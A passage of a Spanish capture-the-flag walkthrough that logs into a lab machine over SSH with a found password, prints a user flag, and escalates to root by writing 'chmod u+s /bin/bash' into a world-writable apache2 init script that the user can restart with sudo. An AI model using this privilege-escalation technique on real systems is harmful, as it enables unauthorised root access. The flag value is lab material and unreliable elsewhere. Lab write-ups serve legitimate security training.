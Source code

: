 ## SSH

```shell
ssh Kinder@<IP>
```

Y si metemos como contraseña `medusa` estaremos dentro por lo que leeremos la flag.

> user.txt

```
497686fad25d7b5464ac8fd745ad1b17
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for Kinder on fa1a5452dc43:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User Kinder may run the following commands on fa1a5452dc43:
    (ALL : ALL) NOPASSWD: /usr/sbin/service apache2 restart
```

Vemos que podemos reiniciar el servidor de apache2, por lo que aprovecharemos eso para ir a los ficheros de configuracion para meter ahi codigo para que cuando lo reiniciemos podamos ser `root`.

```shell
cd /etc/init.d/
```

Si nos vamos a esa ubicacion veremos lo siguiente.

```
total 36
drwxrwxrwx 1 root root 4096 Aug 23 21:09 .
drwxr-xr-x 1 root root 4096 Aug 24 12:08 ..
-rwxr-xr-x 1 root root 2489 Mar 18 12:41 apache-htcacheclean
-rwxrwxrwx 1 root root 8141 Aug 23 21:07 apache2
-rwxr-xr-x 1 root root 3152 Dec  5  2023 dbus
-rwxr-xr-x 1 root root 1421 Aug 23 20:08 message-server
-rwxr-xr-x 1 root root  959 Mar 24 16:35 procps
-rwxr-xr-x 1 root root 4060 Apr  4 00:09 ssh
```

Vemos que podemos editar el archivo de configuracion de `apache2` por lo que haremos lo siguiente.

```shell
nano apache2

#Dentro del nano
#!/bin/bash
chmod u+s /bin/bash
#RESTO DEL CODIGO
```
